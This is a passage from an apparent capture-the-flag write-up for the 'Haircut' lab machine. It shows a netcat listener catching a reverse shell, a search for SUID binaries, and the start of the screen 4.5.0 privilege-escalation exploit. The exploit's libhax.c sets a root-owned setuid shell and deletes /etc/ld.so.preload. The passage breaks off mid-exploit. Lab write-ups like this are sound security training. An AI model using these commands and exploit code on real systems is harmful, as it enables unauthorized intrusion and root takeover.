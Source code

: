 ```
root@kali:~# nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.10.24] 41688
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@haircut:~/html$
```

As you can see, that worked and we are in. You can read the user flag now.

# [](#header-1)PRIVILEGE ESCALATION:

Let us begin by checking for **SUID** files.

```
www-data@haircut:~$ find / -type f -perm -4000 2>/dev/null
/bin/ntfs-3g
/bin/ping6
/bin/fusermount
/bin/su
/bin/mount
/bin/ping
/bin/umount
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/newuidmap
/usr/bin/newgrp
/usr/bin/newgidmap
/usr/bin/gpasswd
/usr/bin/at
/usr/bin/passwd
/usr/bin/screen-4.5.0
/usr/bin/chsh
/usr/bin/chfn
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
```

A **trained eye** must have noticed something here. The **screen** binary with version **4.5.0** is vulnerable to a local privilege escalation.

There is an exploit for this on [exploit-db](https://www.exploit-db.com/exploits/41154).

Let us download the exploit in our local box and play with it a bit.

First, the exploit creates a **C** file **libhax.c**.

```
root@kali:~# cat libhax.c 
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
```
